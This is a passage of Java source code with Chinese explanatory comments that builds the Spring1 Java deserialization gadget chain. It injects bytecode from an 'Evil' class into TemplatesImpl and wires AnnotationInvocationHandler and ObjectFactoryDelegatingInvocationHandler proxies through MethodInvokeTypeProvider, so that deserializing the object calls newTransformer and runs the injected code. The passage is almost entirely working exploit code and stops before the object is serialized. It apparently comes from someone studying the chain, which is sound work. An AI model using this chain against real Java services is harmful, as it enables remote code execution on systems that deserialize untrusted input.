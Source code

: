        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
    
        // 2. 构造 sink
        TemplatesImpl templatesImpl = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templatesImpl.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templatesImpl, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templatesImpl.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesImpl, "EndlessShw");
    
        // 3. 先把两个 AnnotationInvocationHandler 创建出来，以供使用
        Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
        aIHClassDeclaredConstructor.setAccessible(true);
        // 第一个要修改 this.objectFactory.getObject()，返回的是 templatesImpl
        HashMap<Object, Object> mapGO = new HashMap<>();
        mapGO.put("getObject", templatesImpl);
        InvocationHandler invocationHandlerGO = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, mapGO);
        ObjectFactory<?> objectFactory = (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandlerGO);
    
        // 4. 第二个要修改 this.provider.getType()，同时还需要代理类。所以还得先创建代理类，所使用的 InvocationHandler 为 ObjectFactoryDelegatingInvocationHandler
        Class<?> ofdIHClass = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdIHClassDeclaredConstructor = ofdIHClass.getDeclaredConstructor(ObjectFactory.class);
        ofdIHClassDeclaredConstructor.setAccessible(true);
        InvocationHandler invocationHandlerOF = (InvocationHandler) ofdIHClassDeclaredConstructor.newInstance(objectFactory);
        // 创建了代理类
        Type type = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, invocationHandlerOF);
    
        // 5. 接着完善第二个 AnnotationInvocationHandler，它将代理 this.provider.getType() 方法并修改其返回值
        HashMap<Object, Object> mapGT = new HashMap<>();
        mapGT.put("getType", type);
        InvocationHandler invocationHandlerGT = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, mapGT);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProvider = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{typeProviderClass}, invocationHandlerGT);
    
        // 6. 构造 sink
        // 这里 TypeProvider 还是内部静态接口，不好直接用 TypeProvider.class，然后它构造函数好像就一个
        Class<?> mityClass = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> typeProviderClassDeclaredConstructor = mityClass.getDeclaredConstructors()[0];
        typeProviderClassDeclaredConstructor.setAccessible(true);
        // 把 kick-off 中的 provider 改成修改了返回值后的 provider，这样才能使得 this.provider.getType() 返回想要的值
        // MethodInvokeTypeProvider 的构造函数调用了一次 ReflectionUtils.invokeMethod()，所以先不让它触发链，然后后面通过反射修改
        Object tobeSerialized = typeProviderClassDeclaredConstructor.newInstance(typeProvider, Object.class.getMethod("toString"), 0);
        Field methodNameField = mityClass.getDeclaredField("methodName");
        methodNameField.setAccessible(true);
        methodNameField.set(tobeSerialized, "newTransformer");
    